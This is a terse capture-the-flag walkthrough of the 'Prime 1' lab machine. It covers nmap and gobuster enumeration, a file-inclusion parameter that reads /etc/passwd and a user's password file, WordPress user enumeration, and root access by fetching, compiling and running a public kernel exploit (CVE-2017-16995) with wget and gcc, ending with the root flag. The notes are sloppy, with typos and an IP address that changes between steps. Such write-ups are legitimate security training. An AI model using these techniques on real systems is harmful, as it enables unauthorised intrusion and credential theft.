 ----------------------------------------------------
# Author -> Shubham Rannpise
----------------------------------------------------
# Prime 1
# 29/12/2022

----------------------------------------------------
# nmap result
----------------------------------------------------
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```
----------------------------------------------------
web(gobuster)
----------------------------------------------------
```
gobuster dir -u http://10.0.2.24 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 40 -x php,txt

http://10.0.2.24/index.php?file=location.txt
Do something better
ok well Now you reah at the exact parameter
Now dig some more for next one
use 'secrettier360' parameter on some other php page for more fun. 
http://10.0.2.24/image.php?secrettier360=/etc/passwd
http://10.0.2.24/image.php?secrettier360=/home/saket/password.txt
follow_the_ippsec 
wpscan --url http://10.0.2.48/wordpress/ --enumerate vt,vp,u
got username victor

http://10.0.2.24/wordpress/wp-login.php
http://10.0.2.48/wordpress/wp-content/themes/twentynineteen/secret.php
```
----------------------------------------------------
Previlege escalation
----------------------------------------------------
```
uname -r
4.10.0-28-generic


cd tmp
wget https://github.com/kkamagui/linux-kernel-exploits/blob/master/kernel-4.10.0-28-generic/CVE-2017-16995/CVE-2017-16995.c

gcc CVE-2017–16995.c -o exploit
./exploit

you got root
```
----------------------------------------------------
Flag
----------------------------------------------------
```
cat root.txt
b2b17036da1de94cfb024540a8e7075a
```
